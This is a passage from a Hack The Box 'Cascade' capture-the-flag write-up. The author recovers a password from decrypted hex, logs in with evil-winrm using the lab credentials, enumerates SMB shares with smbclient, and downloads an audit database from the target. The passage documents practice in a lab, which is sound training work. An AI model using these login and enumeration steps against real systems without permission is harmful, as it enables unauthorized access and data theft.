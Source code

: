 I used the hex we found inside the decrypt and It gives us the password.

![Untitled](/img/htb-cascade/Untitled%201.png)

I tried login evil-winrm with the credentials `s.smith : sT333ve2`

![Untitled](/img/htb-cascade/Untitled%202.png)

After some enumeration I decided to check SMB again with the new user

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient -L 10.10.10.182 -U 's.smith'
Enter WORKGROUP\s.smith's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Audit$          Disk      
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient //10.10.10.182/Audit$ -U 's.smith'
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 23:31:26 2020
  ..                                  D        0  Wed Jan 29 23:31:26 2020
  CascAudit.exe                       A    13312  Wed Jan 29 03:16:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 23:30:20 2020
  DB                                  D        0  Wed Jan 29 03:10:59 2020
  RunAudit.bat                        A       45  Wed Jan 29 04:59:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 12:08:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 12:08:38 2019
  x64                                 D        0  Mon Jan 27 03:55:27 2020
  x86                                 D        0  Mon Jan 27 03:55:27 2020

		13106687 blocks of size 4096. 7793037 blocks available
smb: \> cd DB
smb: \DB\> ls
  .                                   D        0  Wed Jan 29 03:10:59 2020
  ..                                  D        0  Wed Jan 29 03:10:59 2020
  Audit.db                            A    24576  Wed Jan 29 03:09:24 2020

		13106687 blocks of size 4096. 7793295 blocks available
smb: \DB\> get Audit.db 
getting file \DB\Audit.db of size 24576 as Audit.db (20.3 KiloBytes/sec) (average 20.3 KiloBytes/sec)
smb: \DB\>
```
